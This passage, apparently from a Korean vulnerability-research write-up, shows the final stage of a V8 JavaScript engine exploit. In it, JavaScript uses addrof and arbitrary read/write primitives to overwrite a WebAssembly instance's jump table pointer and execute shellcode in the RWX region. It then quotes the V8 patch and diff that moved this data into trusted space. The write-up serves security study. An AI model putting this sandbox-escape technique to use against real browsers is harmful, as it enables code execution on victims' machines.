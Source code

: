 ![image](https://github.com/user-attachments/assets/7cf07be4-0ed0-4d75-bff4-8b1ebcdfe4d0)

![image](https://github.com/user-attachments/assets/8326e864-41ea-4dad-9a20-3ea55b932018)

Shellcode 간의 간격이 처음 7개까지는 7바이트였다가 이후에 12바이트로 증가하는 것을 고려하여 `jmp` instruction의 operand를 조절해 주어야 한다.

이후 `wasm_instance`의 `jump_table_start`를 shellcode의 주소로 덮어쓰고 exported function을 호출하면 shellcode가 실행된다.

```js
// get address of rwx region
let wasm_instance_addr = addrof(wasm_instance);
console.log(`[+] wasm_instance_addr == ${hex(wasm_instance_addr)}`);
let rwx = aarw(wasm_instance_addr - 1n + 0x48n);
console.log(`[+] rwx == ${hex(rwx)}`);

// overwrite jump_table_start of |wasm_instance| with address of shellcode
// aarw(wasm_instance_addr - 1n + 0x48n, rwx + 0x84fn); // debug
aarw(wasm_instance_addr - 1n + 0x48n, rwx + 0x81an); // release

// execute shellcode
console.log("[+] Executing shellcode...");
wasm_instance.exports.main();
```

[pwn.js](./pwn.js)

![image](https://github.com/user-attachments/assets/52e6a2ae-76c6-456a-9394-55bc2b2651dc)

## Patch

> [[wasm] Introduce WasmTrustedInstanceData](https://chromium.googlesource.com/v8/v8/+/59acab802a319da23c1c005e062fbc2bab4d348b) (2024.01.04.)
>
> This CL moves most data from the WasmInstanceObject to a new WasmTrustedInstanceData. As the name suggests, this new object is allocated in the trusted space and can hence hold otherwise-unsafe data (like direct pointers). As the Wasm instance was still storing some unsafe pointers, this CL closes holes in the V8 sandbox, and allows us to land follow-up refactorings to remove more indirections for sandboxing (potentially after moving more data structures to the trusted space).

```diff
diff --git a/src/builtins/x64/builtins-x64.cc b/src/builtins/x64/builtins-x64.cc
index 336caaa..840a51a 100644
--- a/src/builtins/x64/builtins-x64.cc
+++ b/src/builtins/x64/builtins-x64.cc
@@ -3142,9 +3142,10 @@
     RestoreWasmParams(masm, offset);
     // After the instance register has been restored, we can add the jump table
     // start to the jump table offset already stored in r15.
-    __ addq(r15, MemOperand(kWasmInstanceRegister,
-                            wasm::ObjectAccess::ToTagged(
-                                WasmInstanceObject::kJumpTableStartOffset)));
+    __ addq(r15,
+            MemOperand(kWasmInstanceRegister,
+                       wasm::ObjectAccess::ToTagged(
+                           WasmTrustedInstanceData::kJumpTableStartOffset)));
   }
 
   // Finally, jump to the jump table slot for the function.
```

`WasmInstanceObject`의 data들을 `WasmTrustedInstanceData`로 옮기는 패치가 진행되어, 이제 `WasmInstanceObject`를 통해 jump table (RWX region)에 접근할 수 없다.
